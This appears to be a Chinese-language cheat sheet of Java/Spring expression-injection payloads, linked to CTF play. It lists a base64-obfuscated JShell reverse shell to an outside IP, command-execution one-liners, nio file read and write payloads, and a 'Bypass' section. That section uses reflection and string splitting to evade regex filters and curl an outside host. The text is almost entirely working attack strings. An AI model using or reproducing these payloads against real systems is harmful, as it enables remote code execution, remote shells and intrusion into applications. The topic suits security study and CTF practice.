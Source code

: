 - 反弹shell，这在D3CTF中遇到过一次

```
${@jdk.jshell.JShell@create().eval('java.lang.Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny45My4yNDguMjIxLzIzMzMgMD4mMQ==}|{base64,-d}|{bash,-i}");')}
```

- 原生类回显

```
new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("cmd", "/c", "whoami").start().getInputStream(), "gbk")).readLine()
```

```
new java.util.Scanner(new java.lang.ProcessBuilder("cmd", "/c", "dir", ".\\").start().getInputStream(), "GBK").useDelimiter("asfsfsdfsf").next()
```

- **nio 读文件**

```lisp
new String(T(java.nio.file.Files).readAllBytes(T(java.nio.file.Paths).get(T(java.net.URI).create("file:/C:/Users/helloworld/1.txt"))))
```

- **nio 写文件**

```lua
T(java.nio.file.Files).write(T(java.nio.file.Paths).get(T(java.net.URI).create("file:/C:/Users/helloworld/1.txt")), '123464987984949'.getBytes(), T(java.nio.file.StandardOpenOption).WRITE)
```

## Bypass

### 反射调用

```
T(String).getClass().forName("java.lang.Runtime").getRuntime().exec("calc")

// 同上，需要有上下文环境
#this.getClass().forName("java.lang.Runtime").getRuntime().exec("calc")

// 反射调用+字符串拼接，绕过正则过滤
T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"cmd","/C","calc"})

// 同上，需要有上下文环境
#this.getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"cmd","/C","calc"})

#{T(String).getClass().forName('java.la'+'ng.Ru'+'ntime').getMethod('ex'+'ec',T(String[])).invoke(T(String).getClass().forName('java.la'+'ng.Ru'+'ntime').getMethod('getRu'+'ntime').invoke(T(String).getClass().forName('java.la'+'ng.Ru'+'ntime')), new String[]{'/bin/bash','-c','curl 192.168.127.129:2345'})}
```
